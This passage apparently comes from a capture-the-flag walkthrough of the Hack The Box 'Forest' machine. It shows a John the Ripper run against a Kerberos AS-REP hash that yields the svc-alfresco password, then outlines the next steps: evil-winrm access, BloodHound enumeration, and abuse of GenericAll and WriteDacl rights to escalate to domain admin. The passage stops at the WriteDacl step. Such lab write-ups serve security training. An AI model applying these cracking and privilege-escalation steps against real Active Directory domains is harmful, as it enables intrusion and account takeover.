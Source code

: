 ```js
```
<br>

- Let's crack this hash

<br>

```js
➜  forest john --wordlist=/opt/seclists/Passwords/Leaked-Databases/rockyou.txt svc_alfersco_hash
Using default input encoding: UTF-8
Loaded 1 password hash (krb5asrep, Kerberos 5 AS-REP etype 17/18/23 [MD4 HMAC-MD5 RC4 / PBKDF2 HMAC-SHA1 AES 256/256 AVX2 8x])
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
s3rvice          ($krb5asrep$23$svc-alfresco@HTB.LOCAL)
1g 0:00:00:06 DONE (2023-01-19 23:59) 0.1633g/s 667607p/s 667607c/s 667607C/s s401413..s3r1bu
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```
<br>

- Creds `svc-alfresco:s3rvice`

![](https://i.imgur.com/b2FLeo5.png)

- Let's get in with evil-winrm
- Uploaded SharpHound
- Downloaded the zip and imported it into the bloodhound

## Priv esc

- Now mark **svc-alfresco** as owned target

![](https://i.imgur.com/UHvy7tO.png)

- Let's see the shortest path to domain admins

![](https://i.imgur.com/2vlVRL4.png)

- Yeh looks like a shortest path lol
- We need to do 2 steps
- 1) **GenericAll** to **EXCHANGE WINDOWS PERMISSIONS@HTB.LOCAL**
- 2) **WriteDacl** to **HTB.LOCAL**

#### GenericAll

> The members of the group ACCOUNT OPERATORS@HTB.LOCAL have GenericAll privileges to the group EXCHANGE WINDOWS PERMISSIONS@HTB.LOCAL. This is also known as full control. This privilege allows the trustee to manipulate the target object however they wish.

![](https://i.imgur.com/BkGgWME.png)

- We can do whatever we want, So let's add our user `hacker` to **EXCHANGE WINDOWS PERMISSIONS@HTB.LOCAL** group
- Now WriteDacl

